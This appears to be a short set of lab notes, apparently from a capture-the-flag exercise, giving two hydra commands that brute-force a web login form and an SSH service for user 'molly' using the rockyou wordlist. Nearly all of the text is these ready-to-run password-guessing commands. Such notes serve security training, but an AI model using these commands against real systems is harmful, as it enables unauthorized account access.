 
### Bruteforce a login form
```bash
hydra -l molly -P Downloads/rockyou.txt 10.10.61.210 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V
```

### bruteforce SSH

```bash
hydra -l molly -P Downloads/rockyou.txt 10.10.61.210 ssh -V -I
```
